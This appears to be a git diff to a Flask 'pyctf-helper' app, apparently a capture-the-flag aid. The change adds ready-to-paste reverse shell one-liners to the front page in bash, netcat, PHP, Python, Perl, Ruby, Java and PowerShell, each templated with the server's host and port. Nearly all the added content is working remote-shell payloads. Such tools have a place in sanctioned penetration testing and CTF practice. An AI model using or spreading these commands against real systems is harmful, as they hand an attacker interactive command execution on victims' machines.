

Added shells to front page

Changed region(s): [[0.0, 0.0, 1.0, 0.9671]]

diff --git a/pyctf-helper.py b/pyctf-helper.py
@@ -19,6 +19,8 @@ def create_app(test_config=None):
 
     @app.route('/')
     def help():
+        hostname = (request.host).split(':')[0]
+        rport = prefered_port
         return '''
     <html>
         <head>
@@ -29,14 +31,41 @@ def create_app(test_config=None):
             <h3>Reverse Shells</h3>
             <p>This site allows quick copy/paste / download of reverse shell commands</p>
             <ul>
-                <li><a href="/bash">bash</a></li>
-                <li><a href="/netcat">netcat</a></li>
-                <li><a href="/php">php</a></li>
-                <li><a href="/python">python</a></li>
-                <li><a href="/perl">perl</a></li>
-                <li><a href="/ruby">ruby</a></li>
-                <li><a href="/java">java</a></li>
-                <li><a href="/powershell">powershell</a></li>
+                <li><a href="/bash">bash</a>
+                <ul>
+                    bash -i >& /dev/tcp/''' + hostname + '/' + rport + ''' 0>&1
+                </ul>
+                </li>
+                <li><a href="/netcat">netcat</a><ul>
+                    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ''' + hostname + ' ' + rport + ''' >/tmp/f'
+                </ul>
+                </li>
+                <li><a href="/php">php</a><ul>
+                    php -r '$sock=fsockopen("''' + hostname + '''",''' + rport + ''');exec("/bin/sh -i <&3 >&3 2>&3");
+                </ul>
+                </li>
+                <li><a href="/python">python</a><ul>
+                    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("'''+hostname+'''",'''+rport+'''));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
+                </ul>
+                </li>
+                <li><a href="/perl">perl</a><ul>
+                    perl -e 'use Socket;$i="'''+hostname+'''";$p='''+rport+''';socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
+                </ul>
+                </li>
+                <li><a href="/ruby">ruby</a><ul>
+                    ruby -rsocket -e'f=TCPSocket.open("'''+hostname+'''",'''+rport+''').to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
+                </ul>
+                </li>
+                <li><a href="/java">java</a><ul>
+                    r = Runtime.getRuntime()
+                    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/'''+hostname+'''/'''+rport+''';cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
+                    p.waitFor()
+                </ul>
+                </li>
+                <li><a href="/powershell">powershell</a><ul>
+                    powershell -nop -c \"$client = New-Object System.Net.Sockets.TCPClient(\''''+hostname+'''','''+rport+''');$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'"
+                </ul>
+                </li>
             </ul>
             <p><b>e.g.</b><br /> <a href="''' + request.url + '''bash">''' + request.url + '''bash</a></p>
             <p>If you want to change that port simply add '/port' to the end of the url<p>
